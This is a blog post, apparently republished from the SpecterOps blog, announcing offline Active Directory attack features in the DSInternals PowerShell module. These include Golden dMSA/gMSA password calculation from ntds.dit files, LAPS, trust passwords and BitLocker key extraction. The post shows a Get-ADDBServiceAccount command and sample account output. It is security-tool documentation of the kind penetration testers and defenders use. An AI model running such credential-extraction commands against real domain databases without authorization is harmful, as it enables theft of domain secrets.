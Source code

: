 ```yaml
---
ref: dsinternals-v6
title: Juicing ntds.dit Files to the Last Drop
date: '2025-08-14T00:00:00+00:00'
layout: post
lang: en
image: /assets/images/encrypted-laps-offline.png
permalink: /en/active-directory-offline-attacks-dsinternals-v6/
---
```


*This blog post has originally been published at the [SpecterOps Blog](https://specterops.io/blog/2025/08/14/juicing-ntds-dit-files-last-drop-dsinternals-powershell-active-directory-offline-attacks/).*

## Introduction

Several new Active Directory offline attack capabilities have recently been added to the [DSInternals PowerShell module](https://www.powershellgallery.com/packages/DSInternals).
These enhancements include the **Golden dMSA Attack**, full support for Local Administrator Password Solution (**LAPS**), and the ability to extract **trust passwords** and **BitLocker** recovery keys.
And thanks to some changes made under the hood, large ntds.dit files (100K+ users) process much faster
and it is now possible to read databases originating from read-only domain controllers (**RODCs**).
As a result, *DSInternals* can access all types of secret and confidential information stored in **ntds.dit** files,
solidifying its status as the most comprehensive and feature-rich tool in its category.

## Offline Golden dMSA Attack

The [Get-ADDBServiceAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADDBServiceAccount.md#get-addbserviceaccount) cmdlet now retrieves both [msDS-GroupManagedServiceAccount (gMSA)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/manage-group-managed-service-accounts) (introduced in Windows Server 2012) and [msDS-DelegatedManagedServiceAccount (dMSA)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview) (introduced in Windows Server 2025) object types from ntds.dit files and calculates their current managed passwords using **KDS Root Keys** also stored in the database. Depending on the account type, the attacks are referred to as **Golden gMSA** or **Golden dMSA**.

Example:

```powershell
Get-ADDBServiceAccount -DatabasePath 'C:\ADBackup\ntds.dit'
```

Sample output:

```yml
DistinguishedName: CN=svc_adfs,CN=Managed Service Accounts,DC=contoso,DC=com
Sid: S-1-5-21-2468531440-3719951020-3687476655-1109
Guid: 53c845f7-d9cd-471b-a364-e733641dcc86
SamAccountName: svc_adfs$
Description: ADFS Service Account
Enabled: True
Deleted: False
UserAccountControl: WorkstationAccount
SupportedEncryptionTypes: RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
ServicePrincipalName: {http/login.contoso.com, host/login.contoso.com}
WhenCreated: 9/9/2023 5:02:05 PM
PasswordLastSet: 9/9/2023 5:02:06 PM
ManagedPasswordInterval: 30
```